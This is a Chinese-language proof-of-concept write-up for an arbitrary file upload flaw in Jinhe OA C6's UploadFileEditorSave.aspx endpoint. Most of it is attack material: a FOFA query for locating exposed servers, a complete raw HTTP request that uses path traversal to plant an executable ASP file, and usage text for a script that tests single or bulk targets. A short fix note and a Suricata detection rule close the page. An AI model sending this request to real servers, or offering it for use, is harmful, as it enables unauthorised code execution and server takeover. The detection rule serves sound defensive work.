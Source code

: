 ### 产品简介  
金和网络是专业信息化服务商，为城市监管部门提供了互联网+监管解决方案，为企事业单位提供组织协同OA系统升开发平台，电子政务一体化平台智慧电商平合等服务.  

### 漏洞概述  
金和-c6 uploadfileeditorsave 任意文件上传，攻击者可通过此漏洞获取服务器权限。  

### 指纹识别  
fofa: app="金和网络-金和OA"  

### 漏洞利用  
```
poc:
POST /C6/Control/UploadFileEditorSave.aspx?filename=\....\....\C6\qps4cckjuz.asp HTTP/1.1
Host: your_ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Connection: close
Content-Length: 191
Content-Type: multipart/form-data; boundary=----9fh1lo9qobtszaiahg6v
Accept-Encoding: gzip, deflate
 
------9fh1lo9qobtszaiahg6v
Content-Disposition: form-data; name="file"; filename="qps4cckjuz.jpg"
Content-Type: image/png
 
<% response.write(111*111)
%>
 
------9fh1lo9qobtszaiahg6v--
 
 
 
http://your_ip/C6/filename参数中的文件名
```
![Image text](https://github.com/YUUKI4O4/POC/blob/main/%E9%87%91%E5%92%8C/Jinhe_c6_uploadfileeditorsave_File_Upload_Vulnerability/1.png)  
![Image text](https://github.com/YUUKI4O4/POC/blob/main/%E9%87%91%E5%92%8C/Jinhe_c6_uploadfileeditorsave_File_Upload_Vulnerability/2.png)  

### 测试和利用脚本  
```
python3 Jinhe_c6_uploadfileeditorsave_File_Upload_Vulnerability.py -h          
usage: Jinhe_c6_uploadfileeditorsave_File_Upload_Vulnerability.py [-h] [-t] [-r FILE] [-u URL]

### Jinhe OA c6 uploadfileeditorsave interface has an arbitrary file upload vulnerability. ###

options:
  -h, --help            show this help message and exit
  -t, --target_collection
                        Perform target collection
  -r FILE, --multi_objective_testing FILE
                        Perform multi-objective testing. e.g:python Jinhe_c6_uploadfileeditorsave_File_Upload_Vulnerability.py -r ./url.txt
  -u URL, --single_objective_testing URL
                        Perform single-objective testing. e.g:python Jinhe_c6_uploadfileeditorsave_File_Upload_Vulnerability.py -u
                        http://xxx.xxx.xxx
```

### 修复建议  
1.联系相关软件厂商更新至最新安全版本。  

### Suricata rules  
```
alert http any any -> any any (msg:"Jinhe OA c6 uploadfileeditorsave interface has an arbitrary file upload vulnerability."; flow:established,to_server; content:"post";http_method;nocase; content:"/C6/Control/UploadFileEditorSave.aspx";http_uri;fast_pattern;nocase; content:"filename=\\....\\....\\C6";http_uri;nocase; content:"Content-Type: multipart/form-data";nocase;http_header; content:"Content-Disposition: form-data";nocase;http_client_body; content:"filename=";nocase;http_client_body; content:"<%";nocase;http_client_body;distance:0; pcre:"/filename=.*\.(asp|aspx)/Ui"; reference:url,https://github.com/YUUKI4O4/POC/tree/main/%E9%87%91%E5%92%8C/Jinhe_c6_uploadfileeditorsave_File_Upload_Vulnerability; classtype:web-attck; metadata:created_at 2024-1-8,updated_at 2024-1-8,creater:YUUKI4O4; sid:9; rev:1;)
```
